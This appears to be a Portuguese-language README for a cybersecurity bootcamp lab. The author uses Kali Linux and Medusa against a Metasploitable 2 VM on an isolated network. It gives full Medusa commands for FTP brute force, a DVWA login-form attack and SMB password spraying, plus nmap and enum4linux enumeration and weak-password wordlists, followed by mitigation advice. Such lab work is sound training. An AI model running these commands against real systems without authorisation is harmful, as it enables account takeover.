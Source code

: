 # Projeto: Testes de Força Bruta com Kali + Medusa

**Módulo:** *Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux* — Bootcamp Santander - Cibersegurança 2025

> **Observação importante:** este projeto foi feito como um laboratório de aprendizado. Execute testes apenas em VMs/ambientes que você controla ou com autorização explícita.

## Sobre este projeto

Criei um laboratório com **Kali Linux** e **Metasploitable 2** para entender, na prática, como funcionam ataques de força bruta e, mais importante, como defender sistemas contra eles. Aqui está o passo a passo do que configurei, os comandos que rodei, o que deu certo e o que eu recomendo fazer para mitigar riscos.

## Objetivo (na prática)

* Montar duas VMs (Kali e Metasploitable) em rede isolada para testes.
* Usar o **Medusa** para simular ataques em FTP, formulários web (DVWA) e SMB (password spraying).
* Documentar wordlists, comandos, resultados e recomendações.

## Ferramentas e ambiente

* VirtualBox
* Kali Linux (VM)
* Metasploitable 2 (VM vulnerável)
* Ferramentas: `medusa`, `nmap`, `enum4linux`, `smbclient`, `dirb`

## Como montei o ambiente (passo a passo simples)

1. Criei duas VMs no VirtualBox: Kali e Metasploitable 2.
2. Configurei a rede como **Host-only** para isolar o laboratório.
3. Testei a conectividade: `ping -c 3 192.168.56.102` — se responde, as VMs estão se falando.

> Dica: se o ping não funcionar, confira o adaptador Host-only no VirtualBox e se ambas as VMs estão na mesma sub-rede virtual.

## O que fiz — resumo das etapas

### 1) Enumeração

* `nmap -A 192.168.56.102` — descobri serviços e versões.
* `enum4linux -a 192.168.56.102 | tee enum4output.txt` — informações do SMB.
* `dirb http://<host>` — procura de diretórios em aplicações web.

### 2) Força bruta em FTP com Medusa

* Montei `users.txt` e `pass.txt` com exemplos simples.
* Exemplos de execução:

  * `medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6`
  * `medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6 > bruteforce_medusa_ftp.txt`

### 3) Ataque a formulário web (DVWA)

* Usei o módulo `http` do Medusa com os parâmetros de `PAGE` e `FORM`:

  * `medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6 > medusa_bruteforce_dvwa.txt`
* Ajustei `PAGE`, `FORM` e `FAIL` conforme o HTML do DVWA para que o Medusa reconhecesse falhas de login.

### 4) Password spraying em SMB

* Criei `smb_users.txt` e `senhas_spray.txt` com listas pequenas.
* Rodei:

  * `medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50`
* Conferi compartilhamentos com: `smbclient -L //192.168.56.102 -U msfadmin`

## Wordlists (exemplo)

* `users.txt`:

```
user
msfadmin
admin
root
service
```

* `pass.txt` / `senhas_spray.txt`:

```
123456
password
qwerty
msfadmin
Welcome123
```

## Comandos executados (resumido)

Mantive um registro dos comandos — corrigi pequenos erros antes de rodar. Entre os comandos estão:

* `ping -c 3 192.168.56.102`
* `nmap -A 192.168.56.102`
* `nmap -A 192.168.56.102 > enumeracao_meta2.txt`
* `ftp 192.168.56.102`
* `nmap -sV 192.168.56.102`
* `echo -e 'user\nmsfadmin\nadmin\nroot'> users.txt`
* `echo -e '123456\npassword\nqwerty\nmsfadmin'> pass.txt`
* `medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6 > bruteforce_medusa_ftp.txt`
* `medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6 > medusa_bruteforce_dvwa.txt`
* `enum4linux -a 192.168.56.102 | tee enum4output.txt`
* `echo -e 'user\nmsfadmin\nservice'> smb_users.txt`
* `echo -e 'password\n123456\nWelcome123\nmsfadmin'> senhas_spray.txt`
* `medusa -h 192.168.56.102 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50`
* `smbclient -L //192.168.56.102 -U msfadmin`

> Observação: o log original tinha alguns erros de digitação (ex.: `cart` -> `cat`). No documento está a versão corrigida para facilitar reprodução.

## O que observei (principais aprendizados)

* Senhas fracas ainda funcionam em ambientes vulneráveis.
* Ataques a formulários exigem atenção ao HTML e às mensagens de erro.
* Salvar a saída em arquivos facilita muito a análise depois.
* Revisar comandos antes de rodar evita perda de tempo com erros simples.

## Recomendações práticas

* Implementar bloqueio temporário após várias tentativas falhas.
* Exigir senhas fortes e políticas de expiração.
* Habilitar MFA quando possível.
* Monitorar logs e gerar alertas para muitas tentativas de login.
* Desativar serviços desnecessários e aplicar o princípio do menor privilégio.

## Próximos passos sugeridos

1. Automatizar a geração das wordlists com um script.
2. Adicionar screenshots das saídas para documentação.
3. Registrar métricas (tempo e número de tentativas) para cada teste.

---

Se quiser, posso ajustar o tom ainda mais (mais informal ou mais técnico), adicionar screenshots ou gerar scripts para automatizar os testes.
